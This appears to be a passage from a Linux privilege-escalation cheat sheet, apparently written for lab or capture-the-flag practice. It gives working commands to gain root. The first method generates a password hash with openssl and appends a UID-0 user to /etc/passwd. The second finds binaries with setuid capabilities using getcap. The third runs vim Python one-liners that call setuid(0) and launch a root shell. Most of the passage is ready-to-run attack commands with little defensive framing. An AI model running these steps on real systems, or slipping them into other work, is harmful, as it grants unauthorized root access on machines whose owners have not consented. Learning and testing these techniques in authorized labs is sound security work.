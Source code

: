 {% hint style="info" %}
`nano` is used as an example, can be any other executable with the same reading properties such as `vim`, `nvim`, etc...
{% endhint %}

***

* Abuse privileges to create users with privileges

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>openssl passwd -1 -salt AAA $password    #Create user hash
</strong><strong>nano /etc/passwd
</strong><strong>$username:$hash:0:0:root:/root:/bin/bash #Add this at the final of /etc/passwd
</strong>su $username                             #Switch to the new user
</code></pre>

{% hint style="info" %}
`$username` is an arbitrary name and the `/root:/bin/bash` specify we are requesting a root shell
{% endhint %}

## <mark style="color:orange;">Abusing capabilities on binaries</mark>

* Verify executables with set capabilities

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>getcap -r / 2>/dev/null
</strong>#Example results
/home/karen/vim = cap_setuid+ep
</code></pre>

{% hint style="info" %}
`vim` is used as an example, can be any other executable
{% endhint %}

***

* Check binary capabilities abuse on _GTFOBins_

{% code overflow="wrap" lineNumbers="true" %}
```bash
./vim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'  #For python3
```
{% endcode %}

***

* Go to the binary location and execute the payload

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>cd /home/karen/vim
</strong>./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
#This will give you a root shell
</code></pre>
